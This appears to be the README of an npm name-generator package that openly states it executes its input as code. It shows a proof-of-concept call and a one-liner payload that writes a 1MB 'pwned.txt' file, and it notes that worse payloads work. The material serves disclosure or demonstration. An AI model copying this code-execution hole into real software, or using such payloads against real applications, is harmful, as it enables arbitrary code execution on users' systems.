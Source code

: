 # mad-name-generator

MAD Name Generator for gamers
Based on andreasonny83 unique name generator:
https://www.npmjs.com/package/unique-names-generator

This package is vulnerable to Arbitrary Code Execution.
The parameter passed to the function is executed as a command inside a shell, which allows attackers to execute
arbitrary code.

Example:

```js
// index.ts

console.log(generateRandomName('console.log("Hello")'));

```

Of course more malicious payloads can be used.
Let's take a look at the source code:

```js
var fs = require("fs"), stream = fs.createWriteStream("pwned.txt", {flags: "w"});
const megabyte = "1000000", outputStr = "yougotpwned";
for (var i = 0; i < megabyte / outputStr.length; i++) {
    stream.write("yougotpwned");
}
stream.end();
```

The one-liner command for the above code is:

```js
    'var fs=require("fs"),stream=fs.createWriteStream("pwned.txt",{flags:"w"});const megabyte="1000000",outputStr="yougotpwned";for(var i=0;i<megabyte/outputStr.length;i++) {stream.write("yougotpwned");}stream.end();'
```

This will create a file with 1MB of data.
The file is created in the current working directory of the application.

